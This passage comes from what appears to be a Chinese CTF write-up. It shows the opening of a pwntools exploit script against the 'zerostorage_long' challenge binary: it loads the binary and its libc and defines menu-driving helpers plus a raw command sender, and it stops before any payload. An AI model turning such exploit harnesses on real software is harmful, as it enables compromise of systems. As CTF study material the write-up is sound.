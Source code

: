 ### <a class="reference-link" name="%E6%88%91%E7%9A%84%E5%88%A9%E7%94%A8%E4%BB%A3%E7%A0%81"></a>我的利用代码

```
from pwn import *

# context.terminal = ['tmux', 'splitw', '-h']

target = process("./zerostorage_long", env=`{`"LD_PRELOAD":"./libc.so.6"`}`)
elf = ELF("./zerostorage_long")
libc = ELF("./libc.so.6")
# gdb.attach(target)
# recv_str = target.recv()
# print recv_str

raw_input("Begin...")


def insert(size, data):
    target.recvuntil("Your choice: ")
    target.sendline("1")
    target.recvuntil("Length of new entry: ")
    target.sendline(str(size))
    target.recvuntil("Enter your data: ")
    target.sendline(data)

def merge(index1, index2):
    target.recvuntil("Your choice: ")
    target.sendline("3")
    target.recvuntil("Merge from Entry ID: ")
    target.sendline(str(index1))
    target.recvuntil("Merge to Entry ID: ")
    target.sendline(str(index2))

def view(index):
    target.recvuntil("Your choice: ")
    target.sendline("5")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))
    target.recvline()
    ret = target.recvline()
    return ret

def edit(index, size, data):
    target.recvuntil("Your choice: ")
    target.sendline("2")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))
    target.recvuntil("Length of entry: ")
    target.sendline(str(size))
    target.recvuntil("Enter your data: ")
    target.sendline(data)


def delete(index):
    target.recvuntil("Your choice: ")
    target.sendline("4")
    target.recvuntil("Entry ID: ")
    target.sendline(str(index))


def system_input(cmd):
    target.sendline(cmd)
```